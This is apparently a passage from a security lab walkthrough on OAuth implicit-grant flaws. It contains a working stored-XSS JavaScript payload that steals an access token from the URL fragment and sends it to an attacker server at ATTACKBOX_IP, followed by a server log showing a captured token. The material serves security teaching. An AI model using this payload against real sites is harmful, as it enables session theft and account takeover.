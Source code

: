 To prepare for the attack, inside the Attackbox instance, run a Python HTTP server to listen on port `8081` using the command `python3 -m http.server 8081`. The attacker will share the following payload with the victim that he will enter as status (assume using social engineering):  

```python
<script>var hash = window.location.hash.substr(1);var result = hash.split('&').reduce(function (res, item) {var parts = item.split('=');res[parts[0]] = parts[1];
    return res;
  }, {});
  var accessToken = result.access_token;
    var img = new Image();
    img.src = 'http://ATTACKBOX_IP:8081/steal_token?token=' + accessToken;
</script>
        
```

Let's dissect the payload:

- The JavaScript payload starts by extracting the fragment identifier from the URL, which is the part of the URL following the `#` symbol. It removes the leading `#` using `substr(1)` to obtain the raw fragment string.
- This string is then split by `&` to separate the individual key-value pairs. The `reduce` function processes each of these pairs, splitting them further by = to isolate the keys and values. These key-value pairs are then stored in an object called result.
- The script extracts the `access_token` value from this object and assigns it to the variable `accessToken`. To exfiltrate this access token, the script creates a new Image object and sets its `src` attribute to a URL that points to an attacker's server (`http://ATTACKBOX_IP:8081/steal_token`), appending the access token as a query parameter.
- When the image is loaded, it triggers a request to the attacker's server with the stolen access token included in the URL, effectively sending the token to the attacker.   
    
Copy and paste the code inside the victim machine into the status input field. Once the victim refreshes the page, the XSS payload is executed. It copies the access token from the URL fragment and sends it to the attacker's server at `http://ATTACKBOX_IP:8081/steal_token`. The attacker can then capture the token and use it to gain unauthorized access to the user's account.  

**Note:** Refresh the page in order to visualize what the victim sees and to retrieve the token.

```bash
root@ip-10-10-162-175:~# python3 -m http.server 8081
Serving HTTP on 0.0.0.0 port 8081 (http://0.0.0.0:8081/) ...
10.9.2.217 - - [27/Aug/2024 19:30:10] code 404, message File not found
10.9.2.217 - - [27/Aug/2024 19:30:10] "GET /steal_token?token=2aauviER3lUOev8wNmXQ9B4GNUoadE HTTP/1.1" 404 -

```

The implicit grant type is particularly vulnerable to such attacks because the access token is exposed in the URL fragment, making it accessible to any script running on the page. This vulnerability is compounded if the application does not enforce HTTPS, leading to potential token interception through man-in-the-middle attacks.


### Practical 
---
